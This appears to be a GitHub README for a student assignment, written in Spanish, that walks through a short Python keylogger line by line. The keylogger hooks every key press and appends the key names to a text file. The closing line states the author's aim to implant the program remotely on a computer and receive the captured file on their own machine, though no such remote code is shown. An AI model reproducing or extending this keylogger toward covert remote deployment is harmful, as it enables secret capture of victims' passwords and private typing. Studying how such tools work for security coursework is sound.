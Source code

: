 # SI_T5_P1
Para el codigo me he visto un tutoria en youtube

import keyboard:Importa la biblioteca keyboard que permite monitorear y simular eventos del teclado

def presionar_tecla(tecla):Define una función llamada presionar_tecla que toma el nombre tecla(representa la tecla que pusas)

with open('texto.txt','a') as file:Abre o crea si no existe el archivo texto.txt 

if tecla.name == 'space':Si la tecla que se pulsa es la de espacio

file.write(' '):Deja un espacio en blanco 

else: (Si la tecla presionada no es la barra espaciadora, ejecuta file.write(tecla.name))

file.write(tecla.name):Escribe el nombre de la tecla presionada en el archivo.

keyboard.on_press(presionar_tecla):Llama a la función presionar_tecla cada vez que se presiona una tecla.

keyboard.wait():Mantiene el programa en ejecución, esperando eventos de teclado hasta que se detenga el archivo .

se podria mejorar si consiguiera la manera de inplantarlo remotamente en un ordenador y que me habra el archivo txt en mi ordenaodr 